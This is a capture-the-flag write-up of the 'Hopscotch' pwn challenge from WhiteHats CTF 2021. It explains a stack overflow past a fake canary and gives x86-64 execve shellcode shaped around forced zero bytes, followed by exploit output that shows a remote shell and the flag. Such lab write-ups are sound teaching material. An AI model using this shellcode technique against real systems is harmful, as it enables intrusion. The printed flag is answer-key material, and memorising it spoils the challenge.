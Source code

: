 ```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: Hopscotch
category: pwn 
flag: WH2021{8a11f6615742a_h0p_st3p_jUMp_Dr3w_Dr@w_dr@wN}
points: 991
solves: 5
---
```


> One childhood pasttime I never got to experience much is Hopscotch, a game where you jump and hop over boxes to reach to the goal.

> Won't you play with me?

Files given:
 - [hopscotch](hopscotch)

This challenge is a simple shellcoding exercise.

## Challenge details

There is no canery and NX bit is not set, furthermore the address to our input is printed, hence it we need to give it a proper shellcode to run.

We have a 48 byte array that we can write 96 bytes to, allowing us to overflow the return pointer. However, there is a variable right after the array acting as a 'canery' and is checked against 1337, so we will have to take care of that when overflowing.

The difficulty lies in the fact that when we input our payload, the `9,21,33,45`th bytes are set to `0`, hence we need a shellcode that has those as well.

There are 2 immediate ideas that comes to mind, a very short jump or moving 0 to a register. We can try out these in [shell-storm](http://shell-storm.org/online/Online-Assembler-and-Disassembler/) and prepare our shellcode there. For instance the following are viable options to use when needing a 0:
 - `b"\xb0\x00", # mov al,0`
 - `b"\xb4\x00", # mov ah,0`
 - `b"\xb8\x00\x00\x00\x00", # mov eax,0`
 - `b"\xeb\x00", # jmp 2`
note that the `jmp 2` acts as a `nop` as it is `2` bytes long. Using these in mind, I simply inserted these whenever appropriate to get
```
0x00: 31 C0                          xor     eax, eax
0x02: 48 C7 C0 00 00 00 00           mov     rax, 0
0x09: 48 BB D1 9D 96 91 D0 8C 97 FF  movabs  rbx, 0xff978cd091969dd1
0x13: B0 00                          mov     al, 0
0x15: 48 F7 DB                       neg     rbx
0x18: 53                             push    rbx
0x19: 54                             push    rsp
0x1a: 5F                             pop     rdi
0x1b: 99                             cdq     
0x1c: 52                             push    rdx
0x1d: 57                             push    rdi
0x1e: 54                             push    rsp
0x1f: B0 00                          mov     al, 0
0x21: 5E                             pop     rsi
0x22: B0 3B                          mov     al, 0x3b
0x24: 0F 05                          syscall 
```

Using this we get shell and a with one very lazy grep command, we obtained the flag!

```
ariana@ariana ~/D/S/2/W/Hopscotch> py exploit.py remote
[+] Opening connection to chals.whitehacks.ctf.sg on port 20401: Done
[*] Switching to interactive mode
Enter input: $ grep -rnw "WH2021" / 2>/dev/null
/home/hopscotch/flag.txt:1:WH2021{8a11f6615742a_h0p_st3p_jUMp_Dr3w_Dr@w_dr@wN}
```
